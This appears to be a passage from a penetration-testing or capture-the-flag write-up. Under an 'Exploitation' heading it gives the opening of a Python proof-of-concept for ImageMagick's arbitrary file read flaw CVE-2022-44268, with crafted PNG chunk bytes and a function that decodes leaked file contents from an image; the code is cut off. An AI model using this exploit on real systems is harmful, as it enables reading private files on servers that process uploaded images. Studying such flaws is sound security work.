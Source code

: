 ![](/img2/Pasted%20image%2020250602135653.png)

## Exploitation

- ImageMagick 7.1.0-40 beta Exploitation (Arbitrary File Read) (CVE-2022-44268)

```python
#!/usr/bin/env python3
import sys
import png
import zlib
import argparse
import binascii
import logging

logging.basicConfig(stream=sys.stderr, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
d = zlib.decompressobj()
e = zlib.compressobj()
IHDR = b'\x00\x00\x00\n\x00\x00\x00\n\x08\x02\x00\x00\x00'
IDAT = b'x\x9c\xbd\xcc\xa1\x11\xc0 \x0cF\xe1\xb4\x03D\x91\x8b`\xffm\x98\x010\x89\x01\xc5\x00\xfc\xb8\n\x8eV\xf6\xd9' \
       b'\xef\xee])%z\xef\xfe\xb0\x9f\xb8\xf7^J!\xa2Zkkm\xe7\x10\x02\x80\x9c\xf3\x9cSD\x0esU\x1dc\xa8\xeaa\x0e\xc0' \
       b'\xccb\x8cf\x06`gwgf\x11afw\x7fx\x01^K+F'


def parse_data(data: bytes) -> str:
    _, data = data.strip().split(b'\n', 1)
    return binascii.unhexlify(data.replace(b'\n', b'')).decode()


def read(filename: str):
    if not filename:
        logging.error('you must specify a input filename')
        return

    res = ''
    p = png.Reader(filename=filename)
    for k, v in p.chunks():
        logging.info("chunk %s found, value = %r", k.decode(), v)
```
